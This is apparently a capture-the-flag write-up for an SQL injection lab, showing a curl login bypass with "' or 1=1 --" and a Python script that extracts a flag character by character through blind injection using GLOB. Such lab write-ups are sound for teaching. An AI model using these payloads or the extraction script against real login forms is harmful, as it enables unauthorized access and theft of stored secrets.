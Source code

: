 # SQLi 5

#### Start again by finding the correct login sequence, which appears to allow "' or 1=1 --" again.

'''curl -c cookie -d "username=admin&password="' or 1=1 --" http://challenge.localhost:80```

------------------------------------------------

#### Since this was successful, no need to follow the redirect. In order to get the flag, it has to be pieced together 1 character at a time. To do this, a python script is required.

```python
import requests
import string

url = "http://challenge.localhost:80/"
username = "admin"
password = "' OR 1=1 AND password GLOB 'pwn.college{"
flag = [] # List to hold returned characters
fl = 0 # counter to increase flag index

while True:

  for i in range(33, 127): # Iterate through alphabet, digits and punctuation

    if chr(i) in ["*", "?"]: # Check for after and literal
      continue
    found_char = password + chr(i)
    data = {"username": username, "password": found_char+"*"}
    response = requests.post(url, data=data)

    if response.status_code == 200:
      password = found_char
      flag.insert(fl, chr(i))
      fl += 1

      if chr(i) == "}":
        final_flag = "".join(flag)
        print("pwn.college{" + (''.join(flag)))
        exit(0)
        break
```

--------------------------------------------

#### The script cycles through every character, checking for a return status code of "200". If "200" is returned, then that character is correct and it's added to the flag index. Once the script encounters the closing brackets, it prints the flag and exits.
